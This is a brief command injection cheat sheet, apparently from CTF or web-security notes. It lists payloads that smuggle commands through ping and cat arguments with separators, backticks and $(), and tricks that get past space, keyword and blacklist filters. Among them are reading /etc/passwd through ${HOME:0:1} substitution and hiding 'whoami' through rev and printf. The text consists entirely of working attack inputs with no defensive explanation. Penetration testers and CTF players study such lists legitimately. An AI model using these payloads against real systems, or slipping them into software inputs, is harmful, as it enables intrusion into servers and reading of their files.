 # Command Injection
- Basic
    - $ ping 127.0.0.1 `; id`
    - $ ping 127.0.0.1 `| id`
    - $ ping 127.0.0.1 `&& id`
    - $ ping '127.0.0.1`'; id #` ' 
    - $ ping "`$(id)`"
    - $ cat mewo.txt `$(id)`
    - $ cat mewo.txt `` `id` ``
    - Newline (0x0A, \n, %0A)
- Space Bypass
    - $ cat`<TAB>`/flag
    - $ cat\</flag
    - $ {cat,/flag}
    - $ cat$IFS/flag
    - $ X=$'cat\x20/flag'&&$X
- Keyword Bypass
    - $ cat /f'la'g
    - $ cat /f"la"g
    - $ cat /f\l\ag
    - $ cat /f\*
    - $ cat /f?a?
    - $ cat ${HOME:0:1}etc${HOME:0:1}passwd
- Blacklist Bypass
    - $ a=ca;b=t;$a$b
    - $ cat || head || tail || less || more || base64
    - $ w'h'oami || w"h"oami || \w\h\o\a\m\i
    - $ $(rev<<<'imaohw')
    - $ $(printf "whoami")
